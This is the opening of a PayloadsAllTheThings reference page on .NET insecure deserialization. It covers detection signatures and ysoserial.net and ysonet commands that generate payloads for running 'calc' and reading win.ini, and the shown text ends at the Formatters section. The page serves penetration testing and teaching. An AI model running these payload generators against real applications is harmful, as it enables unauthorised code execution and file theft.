

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Deserialization/DotNET/index.html · generator: mkdocs

# .NET Deserialization

> .NET serialization is the process of converting an object’s state into a format that can be easily stored or transmitted, such as XML, JSON, or binary. This serialized data can then be saved to a file, sent over a network, or stored in a database. Later, it can be deserialized to reconstruct the original object with its data intact. Serialization is widely used in .NET for tasks like caching, data transfer between applications, and session state management.

## Summary

* [Detection](#detection)
* [Tools](#tools)
* [Formatters](#formatters)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP Gadgets](#pop-gadgets)
* [References](#references)

## Detection

| Data           | Description         |
| -------------- | ------------------- |
| `AAEAAD` (Hex) | .NET BinaryFormatter |
| `FF01` (Hex)   | .NET ViewState |
| `/w` (Base64)   | .NET ViewState |

Example: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`

## Tools

* [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net) - Deserialization payload generator for a variety of .NET formatters

    ```ps1
    cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
    ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
    ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
    ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
    ```

* [irsdl/ysonet](https://github.com/irsdl/ysonet) - Deserialization payload generator for a variety of .NET formatters

    ```ps1
    cat my_long_cmd.txt | ysonet.exe -o raw -g WindowsIdentity -f Json.Net -s
    ./ysonet.exe -p DotNetNuke -m read_file -f win.ini
    ./ysonet.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
    ./ysonet.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
    ```

## Formatters

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)
.NET Native Formatters from [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)
